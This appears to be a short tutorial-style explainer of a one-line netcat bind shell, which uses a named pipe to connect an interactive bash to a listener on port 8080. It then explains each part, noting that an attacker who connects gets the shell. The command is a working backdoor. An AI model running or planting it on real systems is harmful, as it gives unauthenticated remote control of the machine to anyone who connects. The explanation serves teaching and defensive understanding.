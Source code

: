 ```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
mkfifo /tmp/f - This command creates a named pipe, or FIFO, at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
| bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.
| nc -l 0.0.0.0 8080 - Starts Netcat in listen mode (-l) on all interfaces (0.0.0.0) and port 8080. The shell will be exposed to the attacker once they connect to this port.

> /tmp/f This final part sends the commands' output back into the named pipe, allowing for bidirectional communication
